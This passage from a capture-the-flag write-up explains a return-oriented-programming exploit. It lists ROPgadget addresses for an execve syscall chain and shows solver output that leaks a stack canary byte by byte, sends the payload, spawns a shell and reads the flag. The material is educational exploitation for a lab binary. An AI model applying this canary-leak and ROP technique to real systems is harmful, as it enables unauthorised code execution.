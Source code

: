 Using [ROPgadget](https://github.com/JonathanSalwan/ROPgadget.git), it's easy enough to find most of these instructions. Additionally, since the data for the program is fixed in place, we can just write the "/bin/sh" string as part of our original program and use its address in data for `rdi`. Some helpful instructions from ROPgadget were:

```
0x000000000044bf1c : pop rax ; ret
0x00000000004006a6 : pop rdi ; ret
0x0000000000412463 : pop rsi ; ret
0x000000000044bf75 : pop rdx ; ret
0x0000000000402b2c : syscall
```

Putting all of this together, I ran my [final python script](./solutions/day23_solver.py) to get a shell and print the flag:

```
$ ./day23_solver.py 
b'414141414141414141414141414141414141414141414141'
b'41414141414141414141414141414141414141414141414141593e8e1e78364230b603ddfc7f'
b'41414141414141414141414141414141414141414141414141413e8e1e78364230b603ddfc7f'
b'4141414141414141414141414141414141414141414141414141418e1e78364230b603ddfc7f'
b'414141414141414141414141414141414141414141414141414141411e78364230b603ddfc7f'
b'414141414141414141414141414141414141414141414141414141414178364230b603ddfc7f'
b'414141414141414141414141414141414141414141414141414141414141364230b603ddfc7f'
b'414141414141414141414141414141414141414141414141414141414141414230b603ddfc7f'
b'414141414141414141414141414141414141414141414141414141414141414130b603ddfc7f'
b'414141414141414141414141414141414141414141414141414141414141414141b603ddfc7f'
b'4141414141414141414141414141414141414141414141414141414141414141414103ddfc7f'
b'4141414141414141414141414141414141414141414141414141414141414141414141ddfc7f'
b'414141414141414141414141414141414141414141414141414141414141414141414141fc7f'
b'414141414141414141414141414141414141414141414141414141414141414141414141417f'
b'4141414141414141414141414141414141414141414141414141414141414141414141414141'
b'414141414141414141414141414141414141414141414141414141414141414141414141414141'
b'41414141414141414141414141414141414141414141414141414141414141414141414141414141312040'
b'41414141414141414141414141414141414141414141414141414141414141414141414141414141412040'
b'41414141414141414141414141414141414141414141414141414141414141414141414141414141414140'
b'41414141414141414141414141414141414141414141414141414141414141414141414141414141414141'
b'4141414141414141414141414141414141414141414141414141414141414141414141414141414141414141'
b'414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141'
b'41414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141'
b'4141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141'
defaultdict(<function pwn.<locals>.<lambda> at 0x10b5c3290>, {25: 89, 26: 62, 27: 142, 28: 30, 29: 120, 30: 54, 31: 66, 32: 48, 33: 182, 34: 3, 35: 221, 36: 252, 37: 127, 40: 49, 41: 32, 42: 64})
0x4236781e8e3e5900
0x7ffcdd03b630
b'00000000000000000000000000000000000000000000000000593e8e1e78364230b603ddfc7f00001cbf4400000000003b00000000000000a60640000000000060bf6d00000000006324410000000000000000000000000075bf44000000000000000000000000002c2b400000000000'
b'\x1b[1mSubmitting...\x1b[0m\n\n'
>> b'id\n'
b'uid=999(ctf) gid=999(ctf) groups=999(ctf)\n'
>> b'ls -al\n'
b'total 900\ndrwxr-xr-x 1 root ctf    4096 Dec 23 11:56 .\ndrwxr-xr-x 1 root root   4096 Dec 23 11:56 ..\n-r--r----- 1 root ctf      59 Dec 23 11:41 flag\n-rwxr-x--- 1 root ctf  901688 Dec 23 11:41 gr8_escape\n-rwxr-x--- 1 root ctf      60 Dec 23 11:41 redir.sh\n'
>> b'cat flag\n'
b'AOTW{congratul8_ur_escAp3_was_gr8_b8_m8_1_rel8_str8_n0_h8}\n'
```

